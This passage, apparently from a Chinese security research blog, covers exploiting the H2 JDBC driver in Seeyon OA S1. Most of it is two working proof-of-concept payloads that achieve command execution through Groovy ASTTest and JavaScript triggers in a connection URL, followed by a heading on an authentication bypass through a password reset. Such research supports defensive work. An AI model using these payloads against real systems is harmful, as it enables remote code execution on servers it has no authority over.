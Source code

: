 **利用**`@groovy.transform.ASTTEST`**就可以使用assert来执行命令**

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

**除了Groovy以外还有JavaScript的利用方案**

[![img](assets/1700703664-9b27196dac67ed916453a8399aca3ba7.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749239.png)

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javascript +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

## 致远oa S1服务 后台用户密码重置导致的鉴权绕过[](#%E8%87%B4%E8%BF%9Coa-S1%E6%9C%8D%E5%8A%A1-%E5%90%8E%E5%8F%B0%E7%94%A8%E6%88%B7%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE%E5%AF%BC%E8%87%B4%E7%9A%84%E9%89%B4%E6%9D%83%E7%BB%95%E8%BF%87)

在前面找到对应的利用方案之后，**当我们尝试去做利用的时候会发现其实后台有额外的权限验证**。直接访问testDBConnenction，会报**非法访问的错误。**

[![img](assets/1700703664-537930b7bd2604d7029e1b6f6c57a269.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749235.png)
